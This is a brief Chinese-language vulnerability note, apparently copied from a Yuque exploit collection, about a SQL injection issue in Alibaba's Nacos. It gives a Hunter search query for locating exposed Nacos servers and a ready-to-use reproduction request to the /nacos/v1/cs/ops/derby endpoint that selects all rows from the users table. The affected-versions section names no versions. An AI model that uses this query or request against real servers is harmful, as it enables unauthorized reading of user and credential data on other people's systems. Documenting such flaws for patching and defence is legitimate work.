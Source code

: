 # Nacos存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。Nacos存在SQL注入漏洞。</font>

# <font style="color:rgb(51, 51, 51);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">Nacos </font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/IkkWO2cBOQAjPiXD/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-961719.png)

# 四、漏洞复现
```plain
/nacos/v1/cs/ops/derby?&sql=SELECT%20*FROM%20users
```

![1712670022957-e404e760-d7d5-4be8-8e7d-f9838b3c4969.png](./img/IkkWO2cBOQAjPiXD/1712670022957-e404e760-d7d5-4be8-8e7d-f9838b3c4969-489647.png)



> 更新: 2024-10-28 15:59:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/orgycyhocbkyn07u>